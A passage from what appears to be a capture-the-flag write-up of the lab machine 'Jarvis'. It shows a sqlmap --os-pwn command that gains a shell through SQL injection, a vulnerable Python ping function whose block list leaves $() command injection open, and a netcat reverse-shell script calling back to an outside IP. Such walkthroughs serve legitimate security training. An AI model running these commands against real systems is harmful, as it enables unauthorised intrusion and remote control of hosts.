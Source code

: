 ![](/assets/images/htb-writeup-jarvis/sql2.png)

sqlmap found 3 type of SQL injections

- boolean-based blind
- time-based blind
- UNION query

By default, sqlmap will use the union query since it's much faster than the other two.

We easily get a shell using the `--os-pwn` option in sqlmap:

`sqlmap -u http://jarvis.htb/room.php?cod=1 -p cod --delay 2 --random-agent --os-pwn`

![](/assets/images/htb-writeup-jarvis/met1.png)

![](/assets/images/htb-writeup-jarvis/met2.png)

![](/assets/images/htb-writeup-jarvis/met3.png)

### Escalating to user pepper

`/var/www/Admin-Utilities` contains a `simpler.py` script that can be executed as user `pepper` through sudo:

```
www-data@jarvis:~/Admin-Utilities$ sudo -l
Matching Defaults entries for www-data on jarvis:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on jarvis:
    (pepper : ALL) NOPASSWD: /var/www/Admin-Utilities/simpler.py
```

The ping function contains a command injection vulnerability. Because it uses the `os.system` function to execute the ping, we can pass additional parameters to execute commands.

```python
def exec_ping():
    forbidden = ['&', ';', '-', '`', '||', '|']
    command = input('Enter an IP: ')
    for i in forbidden:
        if i in command:
            print('Got you')
            exit()
    os.system('ping ' + command)
```

There's a list of forbidden commands so we can't simply use the semi-colon or ampersand characters to inject commands but the `$()` characters are not filtered.

I've created a small script that's execute a netcat reverse shell into `/dev/shm/shell.sh`:

```sh
#!/bin/sh
nc -e /bin/bash 10.10.14.5 5555
```
